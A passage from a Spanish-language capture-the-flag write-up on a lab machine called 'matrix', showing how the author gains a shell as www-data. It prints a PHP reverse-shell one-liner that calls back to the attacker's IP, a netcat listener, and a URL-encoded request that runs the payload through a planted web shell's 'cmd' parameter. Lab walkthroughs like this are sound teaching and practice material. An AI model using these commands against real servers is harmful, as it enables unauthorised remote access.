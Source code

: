 Creamos revshell en php, la ip 192.168.1.116 es la de nuestra maquina atacante.

```bash
php -r '$sock=fsockopen("192.168.1.116",443);exec("/bin/bash <&3 >&3 2>&3");'
```

Nos ponemos a escuchar con  netcat, codificamos la revshell en urlencode y la enviamos al parametro `cmd` de nuestra shell improvisada, para obtener una shell más completa hacemos tratamiento de la TTI.

```bash
nc -lvnp 443
```

```bash
wget http://m47r1x.matrix.nyx/shell.php?cmd=php%20-r%20%27%24sock%3Dfsockopen%28%22192.168.1.116%22%2C443%29%3Bexec%28%22%2Fbin%2Fbash%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27
```

![alt text](../../../assets/images/matrix/image-14.png)

Ya somos el usuario www-data.

```bash
www-data@matrix:/var/www/M47r1X.matrix.nyx$ ls -la
total 36
drwxr-xr-x 2 www-data www-data 4096 Jan 29 13:27 .
drwxr-xr-x 4 root     root     4096 Jan 28 21:00 ..
-rw-r--r-- 1 root     root      361 Jan 27 02:47 filtrate-backend-matrix.php.txt
-rw-r--r-- 1 root     root     1765 Jan 27 01:04 hoja.css
-rw-r--r-- 1 root     root     4782 Jan 28 23:55 index.php
-rw-r--r-- 1 root     root      806 Jan 27 00:48 matrix.js
-rw-r--r-- 1 www-data www-data   17 Jan 29 13:26 messages.txt
-rw-r--r-- 1 www-data www-data   34 Jan 29 13:27 shell.php
```

## Escalada de privilegios

Tratamos la TTI correctamente para obtener una shell completa.

